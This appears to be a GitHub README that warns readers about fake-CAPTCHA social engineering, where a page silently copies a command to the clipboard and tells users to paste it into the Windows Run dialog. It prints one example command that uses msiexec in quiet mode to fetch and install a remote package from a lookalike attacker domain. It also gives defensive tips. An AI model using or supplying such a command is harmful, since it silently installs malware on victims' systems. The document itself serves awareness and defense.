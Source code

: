 # CAPTCHA Social Engineering Attack – A Silent Threat You Should Know About

<!-- Optional GitHub Banner Image URL -->

![captcha social engineering](https://github.com/user-attachments/assets/bd9416a2-6672-4344-bf6c-eb65180158cc)


## 📖 Overview

In today’s cybersecurity landscape, attackers are becoming smarter and using creative ways to trick unsuspecting users. One such dangerous and deceptive technique is called a **CAPTCHA Social Engineering Attack** — a method that abuses the familiar "I'm not a robot" CAPTCHA to compromise your system.

---

## ⚙️ How This Attack Works

1. You visit a suspicious or malicious website.
2. The site shows a seemingly legitimate CAPTCHA — similar to Google or Cloudflare’s human verification.
3. Believing it’s genuine, you click the CAPTCHA checkbox.
4. **Silently, a malicious command gets copied into your clipboard** without your knowledge. Example:

```
msiexec /qn /i https://clloudsverify.com/o.msi
```

5. Then you see a message like this:

> "To complete the verification process, press **Win + R**, then **Ctrl + V**, and hit Enter."

6. Once you obey:

   * **Win + R** opens the Run dialog.
   * **Ctrl + V** pastes the malicious command.
   * **Enter** executes it.

This installs malware silently — no alerts, no warnings.

---

## 🎯 Why This Attack is Dangerous

* **Trust Exploitation**: Users assume CAPTCHA equals safety.
* **Clipboard Hijacking**: Code is injected silently.
* **Social Engineering**: Users are tricked into executing commands.
* **Stealthy Execution**: The command uses Windows Installer (`msiexec`) in quiet mode (`/qn`) to avoid detection.

---

## 💥 Potential Impacts

* ⚠️ Full system compromise
* ⚠️ Theft of credentials, files, personal data
* ⚠️ Installation of Remote Access Trojans (RATs)
* ⚠️ Long-term backdoor access for attackers

---

## 🛡️ How to Protect Yourself

✅ **Never follow online instructions** asking you to use Win + R and paste commands.

✅ **Always check clipboard content** before pasting — open Notepad, press Ctrl + V, and inspect.

✅ **Avoid unknown or suspicious websites**.

✅ **Keep security software updated**.

✅ **Educate others** about such modern social engineering methods.

---

## 🚫 Important Reminder

Just because a CAPTCHA appears doesn’t mean a site is trustworthy. Fake CAPTCHAs can easily be weaponized for such attacks.

> **Stay alert. Stay secure.** 🔐

---

## 📜 License

This project is licensed under the **MIT License** — see the [LICENSE](LICENSE) file for details.

---

## 🏷️ GitHub Topics

`cybersecurity` `social-engineering` `clipboard-attack` `malware` `security-awareness` `hacking` `information-security` `cyber-threats`

---

## 🙌 Contributions

Contributions, suggestions, and improvements are welcome. Feel free to open an Issue or Pull Request.

---

## 🔗 Author

**Md Jahid Hasan Antor**
[LinkedIn](https://www.linkedin.com/in/jahid-hasan-antor) | [GitHub](https://github.com/AntorDOS)


---

*This repository is intended for educational and awareness purposes only.*
